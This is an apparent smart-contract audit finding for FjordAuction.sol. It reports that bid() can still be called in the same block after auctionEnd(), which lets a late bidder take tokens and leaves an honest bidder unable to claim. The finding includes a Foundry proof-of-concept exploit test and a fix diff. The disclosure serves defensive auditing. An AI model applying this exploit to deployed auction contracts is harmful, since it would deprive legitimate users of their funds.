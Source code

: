 # [M-01] User can call FjordAuction.sol::bid() within the same block after FjordAuction.sol::auctionEnd() has been called

## Summary

User can bid after the auction ends which can happen if the auction ends within the same block and the user also bids within the same block, since the block shares the same timestamp. This way the calculated multiplier will not be affected after the bid.

## Vulnerability Details

Auction can be ended if the timestamps are equal.
https://github.com/Cyfrin/2024-08-fjord/blob/0312fa9dca29fa7ed9fc432fdcd05545b736575d/src/FjordAuction.sol#L182-#L184

Then we can go and bid within the same block that the auction has ended.
https://github.com/Cyfrin/2024-08-fjord/blob/0312fa9dca29fa7ed9fc432fdcd05545b736575d/src/FjordAuction.sol#L144-#L146

The user can use the multiplier in their favor.
The user can also claim their tokens and creating a DoS for the other users, since there won't be enough tokens at the end to be sent/claimed.

Example scenario:
TotalTokens: `100`.

Bob bids `10`.
Alice bids `10`.

Total bids: `20`.
Multiplier is: `100.mul(1e18).div(20)` = `5000000000000000000`
So the tokens are calculated to be `evenly` distributed among 2 users.

Exploiter also bids `10` after the auction ends.
Then the exploiter goes and claims his reward leaving `100 - 50 = 50` tokens in the contract.

Bob claims his tokens ,leaving `50 - 50 = 0` tokens in the contract.

Alice share is `50 tokens`, but there are `0 tokens` left in the contract. This results in a DoS and Alice can't claim her tokens.

<details> 
<summary>PoC</summary>

Place the following inside the `test/mocks/ERC20BurnableMock.sol`:

Run the test `forge test --mt testBidWhenAuctionEnd`

```solidity
constructor(string memory name_, string memory symbol_) ERC20(name_, symbol_) {
    _mint(msg.sender, 1000000 ether);
}
```

Add the following test inside the `test/unit/auction.t.sol`:

```solidity
function approveAndBid(address user, uint256 amount) public {
    deal(address(fjordPoints), user, amount);
    vm.startPrank(user);
    fjordPoints.approve(address(auction), amount);
    auction.bid(amount);
    vm.stopPrank();
}

function testBidWhenAuctionEnd() public {
    address regularUser1 = address(0x2);
    address regularUser2 = address(0x3);
    address exploiter = address(0x4);

    uint256 bidRegularUser1 = 15 ether;
    uint256 bidRegularUser2 = 35 ether;
    uint256 normalTotalBids = bidRegularUser1 + bidRegularUser2;

    uint256 bidExploiter = 10 ether;

    approveAndBid(regularUser1, bidRegularUser1);
    approveAndBid(regularUser2, bidRegularUser2);

    skip(biddingTime);
    auction.auctionEnd();

    // making sure the auction has ended.
    assertEq(auction.ended(), true);

    // should not be able to bid after the auction ends - START
    approveAndBid(exploiter, bidExploiter);
    // should not be able to bid after the auction ends - END

    // only two normal bidders has bidded the normal way. That is why we use `normalTotalBids`
    // we cannot use auction.totalBids(), since the exploiter has increased it after the auction ended.
    uint256 multiplier = totalTokens.mul(1e18).div(normalTotalBids);
    assertEq(auction.multiplier(), multiplier);

    // Check if there are tokens after the auctionEnd is called.
    // means that we managed to bid after the auction has ended.
    assert(fjordPoints.balanceOf(address(auction)) > 0);

    uint256 exploiterReward = auction.bids(exploiter).mul(multiplier).div(1e18);
    uint256 regularUserReward1 = auction.bids(regularUser1).mul(multiplier).div(1e18);
    uint256 regularUserReward2 = auction.bids(regularUser2).mul(multiplier).div(1e18);

    console.log("exploiter reward: ", exploiterReward);
    console.log("regularUser1 reward: ", regularUserReward1);
    console.log("regularUser2 reward: ", regularUserReward2);
    console.log("multiplier: ", multiplier);

    // try to claim tokens
    vm.prank(exploiter);
    auction.claimTokens();

    // someone wont be able to claim his tokens, creating a DoS
    // in this case it would be the last person. In other case it could be the second person
    vm.prank(regularUser1);
    auction.claimTokens();

    vm.expectRevert("ERC20: transfer amount exceeds balance");
    vm.prank(regularUser2);
    auction.claimTokens();
}
```

</details>

## Impact

The malicious user can bid after the auction ends. This will create a DoS for the regular users that will try to claim their tokens.
This could happen intentionally and also unintentionally.

## Tools Used

Manual Review
Foundry

Recommendations
Add `ended` check for unbid and bid functions.

<details> 
<summary>Diff</summary>

```diff
function bid(uint256 amount) external {
+   if (ended) {
+       revert AuctionEndAlreadyCalled();
+   }

    if (block.timestamp > auctionEndTime) {
        revert AuctionAlreadyEnded();
    }

    bids[msg.sender] = bids[msg.sender].add(amount);
    totalBids = totalBids.add(amount);

    fjordPoints.transferFrom(msg.sender, address(this), amount);
    emit BidAdded(msg.sender, amount);
}


function unbid(uint256 amount) external {
+   if (ended) {
+       revert AuctionEndAlreadyCalled();
+   }

    if (block.timestamp > auctionEndTime) {
        revert AuctionAlreadyEnded();
    }

    uint256 userBids = bids[msg.sender];
    if (userBids == 0) {
        revert NoBidsToWithdraw();
    }
    if (amount > userBids) {
        revert InvalidUnbidAmount();
    }

    bids[msg.sender] = bids[msg.sender].sub(amount);
    totalBids = totalBids.sub(amount);
    fjordPoints.transfer(msg.sender, amount);
    emit BidWithdrawn(msg.sender, amount);
}

```

</details>
